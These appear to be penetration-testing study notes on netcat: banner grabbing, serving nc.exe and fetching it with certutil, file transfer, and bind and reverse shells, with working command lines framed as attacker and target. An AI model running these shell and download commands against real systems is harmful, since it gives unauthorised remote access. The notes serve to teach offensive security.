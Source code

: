 Bin-sploits in Github - pre-compiled exploits

### Netcat (Bind & Reverse shells)

A network utility used for reading and writing data to network using TCP/UDP. Available for both Unix and Windows (not pre-packaged).

Capable of doing:

1. Banner grabing 
2. Transfering files
3. Bind/Reverse shells

1. Banner Grabing via UDP:
    1. - `nc -nvu <ip> <port>` - No-DNS, Verbose and UDP banner grabing
    
2. Setting up a listener (server mode):
    
    Between Linux and Windows hosts: 
    
    - `cp /usr/share/windows-resources/binaries/nc.exe .` - we send nc.exe because on Windows it **doesn’t** come pre-packaged
    - `python -m http.server 80`
    - On the Windows host: `certutil -urlcache -f http://<local.ip>/nc.exe nc.exe`
    - `nc -nlvp 1234` - No-Dns, Listen mode, Verbose, Port 1234
    - On the Windows host: `.\nc.exe -nv <local.ip> 1234`
        - Connection established. When we write ‘hello’ on any host, we see it on both systems.

1. Transfering files from Linux to Windows:
    1. On windows: `.\nc.exe -nlvp 1234 > given.txt` - saves the communication into the file.
    2. On Linux: `nc -nv <windows.ip> 1234 < message.txt` - sends and windows saves as ‘given.txt’
    
2. **Bind** Shells:
Attacker directly connects to a target’s listener in which a target hosts a shell (cmd.exe, /bin/bash, etc) with netcat.
    
    Bind shells are not good because a target must set up a listerner, and firewalls can detect the inbound connection.
    
    - On a windows target: First we send nc.exe from ourselves to the target
    - On the windows target: `.\nc.exe -nlvp 1234 -e cmd.exe`
    - On a Linux host: `nc -nv <windows.ip> 1234` -  we get a bind shell which is cmd.exe
    
    Switching roles:
    
    - On a Linux target: `nc -nlvp 1234 -c /bin/bash`
    - On a Windows host: `.\nc.exe -nv <linux.ip> 1234` - we get a bind shell (bash) on our Windows host

1. Reverse shells:
    
    Target connects to an attacker’s listener.
    
    - On a Linux host: `nc -nlvp 1234`
    - On a Windows target: `nc -nv <linux.ip> 1234 -e cmd.exe`
    
    Switching roles:
    
    - On a windows host: `.\nc.exe -nlvp 1234`
    - On a Linux target: `nc -nv <windows.ip> 1234 -c /bin/bash`
    